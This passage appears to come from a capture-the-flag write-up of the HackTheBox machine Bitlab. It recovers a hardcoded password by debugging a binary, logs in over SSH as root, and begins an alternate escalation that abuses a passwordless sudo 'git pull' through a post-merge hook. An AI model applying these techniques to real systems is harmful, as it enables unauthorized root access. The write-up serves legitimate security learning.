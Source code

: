 ![image-20200109204835706](https://0xdfimages.gitlab.io/img/image-20200109204835706.png)

I can see the comparison to `clave` nine lines above. I’ll add a break point
at `ShellExecuteW`, and hit Run, but the program just exits. It’s not reaching
this point. I’ll try adding one at the cmp, `XX1640`. This time it breaks
there, and I can see something interesting in the values:

![image-20200109205026112](https://0xdfimages.gitlab.io/img/image-20200109205026112.png)

It looks like the command line options for `putty.exe`, including `-pw
Qf7]8YSV.wDNF*[7d?j&eD4^`.

### SSH

With this password, I can SSH to Bitlab as root:

    
    
    root@kali# ssh root@10.10.10.114
    root@10.10.10.114's password: 
    Last login: Fri Sep 13 14:11:14 2019
    root@bitlab:~# 
    

And grab `root.txt`:

    
    
    root@bitlab:~# cat root.txt 
    8d4cc131************************
    

## Beyond Root

### Unintended Path from www-data to root

With a shell as www-data, I ran `sudo -l`, and saw I could run `git pull`
without password:

    
    
    www-data@bitlab:/$ sudo -l
    Matching Defaults entries for www-data on bitlab:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on bitlab:
        (root) NOPASSWD: /usr/bin/git pull
    

This makes sense, as I saw the deploy project needed to run this automatically
when new code is committed.

In `git`, a `pull` is actually a `git fetch` followed by a `git merge`. I can
make my own hook, a `post-merge` hook, and put a shell in there. The challenge
I have is that both projects are owned by root and not writable by me:

    
    
    www-data@bitlab:/var/www/html$ find -type d -name hooks -ls
      2502298      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./profile/.git/hooks
      2760044      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./deployer/.git/hooks
    